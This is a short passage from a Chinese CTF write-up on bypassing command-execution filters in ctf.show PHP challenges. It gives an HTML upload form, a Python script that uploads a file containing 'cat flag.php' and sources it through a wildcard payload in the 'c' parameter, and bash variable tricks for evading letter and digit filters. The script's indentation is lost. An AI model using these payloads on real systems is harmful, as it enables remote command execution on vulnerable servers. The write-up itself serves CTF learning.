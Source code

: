https://blog.csdn.net/miuzzx/article/details/109143413

#### 0x01 通配符还在

post请求

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://961d3840-0a2d-4cbb-b0c9-7d07d4e787e2.challenge.ctf.show:8080/" method="post" enctype="multipart/form-data">

    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

![image-20210425180330281](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210425180330281.png)

```
import requests

while True:

url = "http://b3f572c8-7b58-4bc2-9d6b-c534fd31d357.challenge.ctf.show:8080/?c=.+/???/????????[@-[]"
r = requests.post(url, files={"file": ('1.php', b'cat flag.php')})
if r.text.find("flag") >0:
    print(r.text)
    break
```

#### 0x02 通配符已经没有

shell中各种黑魔法：https://blog.csdn.net/qq_46091464/article/details/108563368

```
${_}='' 返回上次命令执行结果
$((${_})) 返回0
${##} 返回1
$# 返回参数个数
$? 上一条命令的返回值
${#abc} 返回后面的参数个数3

```

### 15 单过滤字母或者数字
